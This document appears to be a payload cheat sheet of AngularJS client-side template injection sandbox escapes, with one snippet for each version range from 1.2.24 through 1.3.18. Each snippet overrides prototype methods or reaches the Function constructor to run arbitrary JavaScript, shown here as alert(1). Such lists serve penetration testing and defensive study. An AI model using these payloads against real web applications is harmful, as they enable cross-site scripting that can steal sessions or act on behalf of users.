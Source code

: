 AngularJS 1.3.3 - 1.3.18

```javascript
{
  {
    {
    }
    [{ toString: [].join, length: 1, 0: "__proto__" }].assign = [].join;
    "a".constructor.prototype.charAt = [].join;
    $eval("x=alert(1)//");
  }
}
```

AngularJS 1.3.1 - 1.3.2

```javascript
{
  {
    {
    }
    [{ toString: [].join, length: 1, 0: "__proto__" }].assign = [].join;
    "a".constructor.prototype.charAt = "".valueOf;
    $eval("x=alert(1)//");
  }
}
```

AngularJS 1.3.0

```javascript
{
  {
    !ready &&
      (ready = true) &&
      (!call
        ? $$watchers[0].get(toString.constructor.prototype)
        : (a = apply) &&
          (apply = constructor) &&
          (valueOf = call) &&
          "" +
            "".toString(
              "F = Function.prototype;" +
                "F.apply = F.a;" +
                "delete F.a;" +
                "delete F.valueOf;" +
                "alert(1);"
            ));
  }
}
```

AngularJS 1.2.24 - 1.2.29

```javascript
{
  {
    "a".constructor.prototype.charAt = "".valueOf;
    $eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");
  }
}
```
